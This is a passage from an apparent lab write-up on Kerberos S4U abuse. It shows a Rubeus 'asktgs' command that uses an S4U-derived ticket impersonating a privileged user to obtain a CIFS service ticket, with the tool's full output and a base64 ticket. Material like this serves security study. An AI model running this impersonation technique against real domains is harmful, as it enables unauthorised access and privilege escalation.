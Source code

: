 
Here `Rubeus` ask for `S4uSelf` ticket for himself (SA-TEST-01) and then ask a TGS for `alice` for the service `krbtgt` (actually it's a TGT!)

## Asking a TGS for any service now using the TGS(T) received from s4u

Finally, we can ask a TGS for a sensible service using the ticket get from `s4u` that impersonate a high privilege user, and can act as a TGT!

```
c:\work\dev\Rubeus\Rubeus\bin\Debug>Rubeus.exe asktgs /ticket:alice_krbtgt_COSMOS /domain:COSMOS /dc:127.0.0.1 /service:cifs/WIN-P8AJE4ISDL7

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGS

[*] Using domain controller: 127.0.0.1
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/WIN-P8AJE4ISDL7'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  cifs/WIN-P8AJE4ISDL7
  ServiceRealm             :  COSMOS.CORP
  UserName                 :  sylvain
  UserRealm                :  COSMOS.CORP
  StartTime                :  1/7/2022 3:38:40 PM
  EndTime                  :  1/8/2022 1:26:30 AM
```
